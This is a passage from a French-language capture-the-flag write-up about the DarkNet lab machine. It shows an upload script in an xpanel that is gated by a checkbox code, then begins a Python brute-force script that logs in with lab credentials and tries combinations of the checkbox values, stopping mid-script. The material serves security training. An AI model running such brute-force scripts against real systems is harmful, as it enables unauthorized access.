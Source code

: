 Du pain spiritique sur la planche
---------------------------------

L'accès au *xpanel* n'apporte à première vue pas grand chose... Mais en commentaire dans le HTML on trouve une référence à un script *ploy.php* qui est un code à remplir via des checkbox.  

Il s'agit bien sûr d'un script d'upload mais le fichier ne sera accepté que si on trouve le bon code...  

![DarkNet CTF upload script requiring code](https://raw.githubusercontent.com/devl00p/blog/master/images/darknet/darknet_upload_script.png)  

Les valeurs de chaque checkbox sont numériques on aura donc une combinaison de ces valeurs à trouver :  

```html
<input type="checkbox" name="checkbox[]" value="37">
<input type="checkbox" name="checkbox[]" value="58">
<input type="checkbox" name="checkbox[]" value="22">
<input type="checkbox" name="checkbox[]" value="12">
<input type="checkbox" name="checkbox[]" value="72">
<input type="checkbox" name="checkbox[]" value="10">
<input type="checkbox" name="checkbox[]" value="59">
<input type="checkbox" name="checkbox[]" value="17">
<input type="checkbox" name="checkbox[]" value="99">
```

Voici un code pour trouver la bonne combinaison :  

```python
from itertools import combinations
import requests

numbers = ["37", "58", "22", "12", "72", "10", "59", "17", "99"]                                                                                                                                                                              

sess = requests.session()                                                                                                                                                                                                                     
login_data = {                                                                                                                                                                                                                                
    "username": "devnull",                                                                                                                                                                                                                    
    "password": "j4tC1P9aqmY",                                                                                                                                                                                                                
    "Action": "Login"                                                                                                                                                                                                                         
    }                                                                                                                                                                                                                                         

r = sess.post(                                                                                                                                                                                                                                
```
